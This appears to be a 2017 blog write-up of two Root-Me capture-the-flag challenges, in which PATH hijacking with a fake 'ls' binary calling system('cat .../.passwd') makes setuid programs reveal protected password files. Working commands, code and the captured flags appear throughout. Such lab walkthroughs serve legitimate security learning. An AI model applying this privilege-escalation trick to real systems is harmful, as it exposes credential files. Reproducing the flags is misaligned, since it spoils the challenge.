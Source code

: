 ```yaml
---
layout: post
title:  "Root-Me App Scripts"
subtitle: "ELF 32 System 1 and 2"
date:   2017-02-08 02:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-net-header.jpg"
---
```

# ELF 32 System 1

```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/opt/too
ls/checksec/
app-script-ch11@challenge02:~$ export PATH=$PATH:/test
app-script-ch11@challenge02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/opt/too
ls/checksec/:/test
```

```
app-script-ch11@challenge02:~$ mkdir /tmp/ch11-sploit
app-script-ch11@challenge02:~$ touch /tmp/ch11-sploit/evil-ls.c
```

{% highlight c %}
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[]) 
{
        system("cat /challenge/app-script/ch11/.passwd");
        return 0;
}

{% endhighlight %}

cd to dir

```
gcc -o ls ./evil-ls.c
```

```
app-script-ch11@challenge02:~$ export PATH=/tmp/ch11-sploit/:/bin/
app-script-ch11@challenge02:~$ ./ch11
!oPe96a/.s8d5
```

# ELF 32 System 2

```
system("cat /challenge/app-script/ch11/.passwd");
```

```
system("cat /challenge/app-script/ch12/.passwd");
```

```
app-script-ch12@challenge02:~$ export PATH=/tmp/ch12-sploit/:/bin/
app-script-ch12@challenge02:~$ ./ch12
8a95eDS/*e_T#
```